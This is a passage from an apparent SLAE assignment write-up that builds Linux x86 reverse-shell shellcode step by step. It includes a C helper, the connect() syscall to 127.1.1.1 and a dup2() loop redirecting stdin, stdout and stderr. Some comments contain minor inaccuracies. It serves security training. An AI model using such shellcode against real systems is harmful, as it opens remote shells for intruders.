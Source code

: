 ```c
#include <stdio.h>
#include <sys/socket.h>
#include <netinet/ip.h>
#include <arpa/inet.h>
#include <unistd.h>



int main() {



	const char* ip = "127.1.1.1";
        struct sockaddr_in addr;

	printf("%d\n", sizeof(addr));
	return 0;




}
```

Then we compile using `gcc test.c -o size` and running `./test` returns the value of `16`

```sh
anubis@ubuntu:~/SLAE/Assignment_2$ gcc test.c -o test
anubis@ubuntu:~/SLAE/Assignment_2$ ./test
16
anubis@ubuntu:~/SLAE/Assignment_2$
```

So now loading the size of the IP address we will be connecting to, and the invoking the `connet()` syscall will finalize this part of the shellcode, as seen below:

```nasm
	mov dl, 16	; Size of the IP address, found running test.c

	mov ax, 362	; sycall connect()

	int 0x80	; execute connect()
```

The following set of instructions will be familiar from the bind shellcode. This will set up the `dup2()` syscall loop. We do this so that it loads the 3 file descriptors (stdin, stdout, stderr), see below:


```nasm
	xor ecx, ecx
	mov cl, 3	; Setting the counter to 3 (3 file descriptors as seen in Assignment 1)
	

	call_dup:
	
	xor eax, eax
	mov al, 63	; syscall dup2()
	dec ecx		; loop counter


	int 0x80	; execute dup2 each time

	inc ecx		; loop counter
	loop call_dup	; Actually loop
```
